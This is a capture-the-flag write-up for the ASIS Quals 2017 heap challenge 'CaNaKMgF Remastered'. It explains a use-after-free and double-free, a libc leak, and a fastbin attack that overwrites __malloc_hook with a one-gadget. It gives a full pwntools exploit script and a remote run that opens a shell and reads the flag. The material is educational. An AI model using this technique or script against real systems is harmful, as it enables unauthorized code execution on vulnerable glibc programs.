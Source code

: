 ```yaml
---
layout: post
title: ASIS Quals 2017 - CaNaKMgF Remastered
published: True
---
```


**Points:** 384
**Solves:** 25
**Category:** Exploitation 

> [CaNaKMgF_remastered](../binaries/CaNaKMgF_remastered)

{% highlight bash %}
CaNaKMgF_remastered: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=e4ba2a9e3c69441f88481b5e06ac21fd52c54b9a, not stripped
{% endhighlight %}

{% highlight python%}
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL
{% endhighlight %}

## Intro
This program is based off the `CaNaKMgF` pwnable challenge, except that `CaNaKMgF_remastered` has full RELRO enabled and PIE enabled. Interestingly, during the CTF, I had already solved `CaNaKMgF` using a technique that bypassed both mitigations, so I re-used the same exploit for `CaNaKMgF_remastered` and was able to get the flag.

## Reversing
When we run the program, we are presented with the following menu.

{% highlight bash %}
1. Allocate
2. Pray for Allah
3. Free
4. Read
5. Run away
{% endhighlight %}

The program is very simple. It allows us to allocate heap chunks of different sizes, which it places in a global array in the .BSS called `alloc_list[]`. 
We can write data of our choosing into these chunks and the the program ensures that the length of our data fits inside the chunk we've allocated for it.  
We can specify chunks from this list that we would like to print out the contents of.
Similarly, we can also free any chunks in this list.
 
There was also some functionality to read limited files off the remote server when one selected the "Pray for Allah" option in the `CaNaKMgF` binary, but this function no longer worked in `CaNaKMgF_remastered`, and I didn't use it in my exploit for `CaNaKMgF`, anyway.

## Exploit
The main vulnerability in this program is that when a chunk is freed, the associated pointer to the chunk is not removed from `alloc_list[]`. This allows us to perform **use-after-frees** and **double-frees** which we can abuse to corrupt the heap and gain code execution.

To get a libc leak, we can exploit the **UAF** to allocate 2 small chunks, free one of them and then print its contents out, since we know the `FD` and `BK` pointers of our free'd small chunk will be populated with a pointer to an offset from `main_arena` in libc.

To get control of `RIP`, we can perform a **fastbin attack** to get `malloc()` to return an almost arbitrary pointer, overwrite `__malloc_hook`, and then call our overwritten `__malloc_hook` function pointer by triggering a double free memory corruption error.

To perform the **fastbin attack**, we will allocate 2 fast chunks of size `0x68` bytes, and free the 2nd one, then the 1st one, and then the 2nd one again, abusing the fact that we can double-free fast chunks, so long as the head of the freelist that their fast chunk size is associated with, is not the same as the chunk that is being free'd.  

from `malloc.c`:
{% highlight C %}
if (__builtin_expect (old == p, 0))
  {
    errstr = "double free or corruption (fasttop)";
    goto errout;
  }
{% endhighlight %}

So, right now our fastbin looks like this:

[HEAD]->D->C->D->NULL 

Now, we will allocate another fast chunk of the same size as D, so that D is popped off this freelist and used to service our `malloc()` request.

Since we can also specify the contents of chunks we allocate, we will overwrite the first qword of this chunk with the address of our target that we would like `malloc()` to return.

**This corrupts the `FD` pointer of chunk D, a pointer to  which, still exists in the singly linked freelist!** 

We can select any address to overwrite the `FD` pointer with, subject to certain constraints. 

from `malloc.c`:
{% highlight C %}
 if ((unsigned long) (nb) <= (unsigned long) (get_max_fast ()))
    {
      idx = fastbin_index (nb);
      mfastbinptr *fb = &fastbin (av, idx);
      mchunkptr pp = *fb;
      do
        {
          victim = pp;
          if (victim == NULL)
            break;
        }
      while ((pp = catomic_compare_and_exchange_val_acq (fb, victim->fd, victim))
             != victim);
      if (victim != 0)
        {
          if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
            {
              errstr = "malloc(): memory corruption (fast)";
            errout:
              malloc_printerr (check_action, errstr, chunk2mem (victim), av);
              return NULL;
            }
          check_remalloced_chunk (av, victim, nb);
          void *p = chunk2mem (victim);
          alloc_perturb (p, bytes);
          return p;
        }
    }
{% endhighlight %}

To satisfy these constraints, we will abuse the fact that we can make `FD` point to misaligned addresses as long as they satisfy the valid size metadata field constraint. In our case, since we are targeting fast chunks of size `0x68`, the following is a valid address should do the trick.

{% highlight C %}
gdb-peda$ p &__malloc_hook
$2 = (void *(**)(size_t, const void *)) 0x7ffff7dd1b10 <__malloc_hook>
gdb-peda$ x/32xg 0x7ffff7dd1b10-0x30+0xd
0x7ffff7dd1aed <_IO_wide_data_0+301>:   0xfff7dd0260000000      0x000000000000007f 
0x7ffff7dd1afd:                         0xfff7a93270000000      0xfff7a92e5000007f 
0x7ffff7dd1b0d <__realloc_hook+5>:      0xfff7a92c8000007f      0x000000000000007f
0x7ffff7dd1b1d:                         0x0000000000000000      0x0000000000000000
{% endhighlight %}

At this point, our freelist should now look like this:

[HEAD]->C->D->{target addr}

After two more allocations, our target address should now be at the head of this freelist:

[HEAD]->{target addr}

Then, the next memory allocation of size `0x68` should return a pointer to our target address and since we can control the contents of chunks we allocate, we  will simply overwrite `__malloc_hook` with a **"magic" one gadget RCE** address.

Once we trigger an actual double free corruption error, the program should now spawn a shell.

## exploit.py
{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def allocate(length, contents):
    r.sendline("1")
    r.recvuntil("Length?")
    r.sendline(str(length))
    r.sendline(contents)
    r.recvuntil("away")

def free(idx):
    r.sendline("3")
    r.recvuntil("Num? ")
    r.sendline(str(idx))
    r.recvuntil("away")

def read(idx):
    r.sendline("4")
    r.recvuntil("Num? ")
    r.sendline(str(idx)) 
    return r.recvuntil("away")

def exploit(r):
    libc = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
    
    # leak libc
    log.info("starting leaks...")
    allocate(255,"A")
    allocate(255,"B")
    free(0)

    libc_base = u64(read(0)[:6].ljust(8,'\0'))-0x3c3b78
    malloc_hook  = libc_base+libc.symbols["__malloc_hook"]
    one_shot = libc_base+0xef6c4
    log.success("libc base found at: "+hex(libc_base)) 
    log.success("one_shot found at: "+hex(one_shot)+"\n\n") 

    ## fastbin attack
    log.info("starting fastbin attack...")
    allocate(0x68,"C") # C # 2
    allocate(0x68,"D") # D # 3
    allocate(255, "E") # E
    
    free(3)
    free(2)
    free(3)

    # overwrite __malloc_hook
    payload = p64(malloc_hook-0x30+0xd)
    allocate(0x68, payload)
    allocate(0x68, "F")
    allocate(0x68, "G")
    allocate(0x68,"H"*0x13+p64(one_shot))
    free(0)
   
    # trigger
    r.sendline("3")
    r.sendline("0") 
    
    r.interactive()

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['./CaNaKMgF_remastered'], env={"LD_PRELOAD":""})
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}

{% highlight text %}
➜  CaNaKMgF_remastered python exploit.py 128.199.85.217 10001
[*] For remote: exploit.py HOST PORT
[+] Opening connection to 128.199.85.217 on port 10001: Done
[*] '/lib/x86_64-linux-gnu/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] starting leaks...
[+] libc base found at: 0x7f80b7c9f000
[+] one_shot found at: 0x7f80b7d8e6c4
    
[*] starting fastbin attack...
[*] Switching to interactive mode

Num? $ id
uid=1000(pwn) gid=1000(pwn) groups=1000(pwn)
$ ls
CaNaKMgF
F1Ag_FiLe_Is_Heeereeeeeee_HAHAHA
$ cat F1Ag_FiLe_Is_Heeereeeeeee_HAHAHA
ASIS{full_relro_fastbin_attack!!!!!!_:-P}
$
{% endhighlight %}
